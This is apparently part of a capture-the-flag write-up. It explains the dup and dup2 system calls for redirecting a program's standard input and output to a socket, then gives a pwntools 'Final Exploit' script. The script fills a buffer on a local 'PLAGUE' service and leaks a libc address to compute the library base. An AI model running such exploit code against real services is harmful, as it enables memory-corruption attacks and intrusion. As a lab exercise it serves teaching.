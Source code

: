 how to tackle this ?
 
[***dup***](https://man7.org/linux/man-pages/man2/dup.2.html)
*The dup() system call allocates a new file descriptor that refers
       to the same open file description as the descriptor oldfd.  (For
       an explanation of open file descriptions, see open(2).)  The new
       file descriptor number is guaranteed to be the lowest-numbered
       file descriptor that was unused in the calling process.*

[***dup2()***](https://man7.org/linux/man-pages/man2/dup.2.html)
       *The dup2() system call performs the same task as dup(), but
       instead of using the lowest-numbered unused file descriptor, it
       uses the file descriptor number specified in newfd.  In other
       words, the file descriptor newfd is adjusted so that it now
       refers to the same open file description as oldfd*.
**Usage :**
```C
int dup2(int oldfd, int newfd);
```
so we can use dup2 to duplicate our socket's files descriptor with the programs stdio and stdout like so:


***NOTE: This will close our programs stdio and stdout (fds 0 and 1 respectively)***


```C
dup2(6,0); 
dup2(6,1);
```

I used gdb to find the socket fd of my final connection.

## Final Exploit 


```python
from pwn import *


def slog(k, v): return success(' : '.join([k, v]))
def clog(k, v): return log.critical(' : '.join([k, v]))
# action  target_competitor version 
context.log_level='debug'
libc=ELF("./libc-2.31.so")

p = remote("127.0.0.1",9001)

p.sendline(b"PLAGUE YOUDONTKNOWMESON 1.0\r")
p.sendline(b"Plague-Target:dddddddddd\r") 
p.sendline(b"Content-Length: 2048\r\n\r")
p.sendline(b"A"*2048)

p1 = remote("127.0.0.1",9001)

p1.sendline(b"PLAGUE SOMEONE 2.0\r")
p1.sendline(b"Plague-Target:asasdadad\r") 
p1.sendline(b"Content-Length: 2000\r\n\r")
p1.sendline(b"B") # leak  

p1.recvuntil(b"\x0a")
print(p1.recv(6))
leak = (u64(p1.recv(6).ljust(8,b'\0')))
libc_base = leak -0x1ecbe0
clog("leak : ",hex(leak))
clog("libc_leak : ",hex(libc_base))


```